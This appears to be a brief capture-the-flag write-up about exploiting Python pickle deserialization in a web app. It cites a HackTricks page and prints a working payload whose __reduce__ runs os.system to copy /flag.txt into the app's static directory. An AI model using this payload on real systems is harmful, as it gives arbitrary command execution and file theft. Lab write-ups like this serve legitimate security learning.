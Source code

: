 Dev tab

![](attachment/db4b5e87f6ed7c372cff6683feffa1c2.png)

Flag is at `/flag.txt`

![](attachment/be6fd943e4dfcf329ee73730c4de198a.png)

Google : `pickle unsafe des hacktricks`

> https://book.hacktricks.xyz/pentesting-web/deserialization#pickle

Craft pickle exploit

> `pickle_exp.py`

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("cp /flag.txt /proc/self/cwd/application/static/js",))
print(base64.b64encode(pickle.dumps(P())))
```

![](attachment/c1b1777d5a83fdf5c82aa137a2464126.png)

`isAuthenticated` was called at `/home`, visit that page
